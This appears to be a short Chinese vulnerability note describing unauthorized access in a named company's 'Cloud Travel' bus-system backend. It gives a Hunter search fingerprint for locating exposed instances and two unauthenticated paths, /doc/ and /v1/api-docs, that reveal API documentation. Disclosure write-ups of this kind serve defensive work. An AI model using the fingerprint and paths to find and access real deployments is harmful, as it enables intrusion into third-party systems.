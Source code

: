 # 江西云本数字科技有限公司云出行后台管理系统未授权访问漏洞

# 一、漏洞简介
江西云本数字科技有限公司总部设立于英雄城南昌，拥有原江西华兴信息产业科技有限公司的原班团队，拥有10年以上的研发、生产、销售智能化公交电子站牌的公交系统服务经验。江西云本数字科技有限公司云出行后台管理系统未授权访问漏洞。

# 二、影响版本
+ 云出行后台管理系统

# 三、资产测绘
+ hunter`web.body="云出行后台管理系统"`
+ 特征

![1709867048534-9c791fbf-307d-4514-90eb-f3741ebb4f60.png](./img/wM-ryvOuyAthJJh_/1709867048534-9c791fbf-307d-4514-90eb-f3741ebb4f60-236876.png)

# 四、漏洞复现
```plain
/doc/
```

![1709867105816-9f04725c-4813-477f-96e9-1833288e2a63.png](./img/wM-ryvOuyAthJJh_/1709867105816-9f04725c-4813-477f-96e9-1833288e2a63-679337.png)

```plain
/v1/api-docs
```

![1709867173481-02a720bf-9ecc-4855-9e3e-1ad50affe44c.png](./img/wM-ryvOuyAthJJh_/1709867173481-02a720bf-9ecc-4855-9e3e-1ad50affe44c-569884.png)



> 更新: 2024-03-13 23:54:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pheadzhwmwz319mg>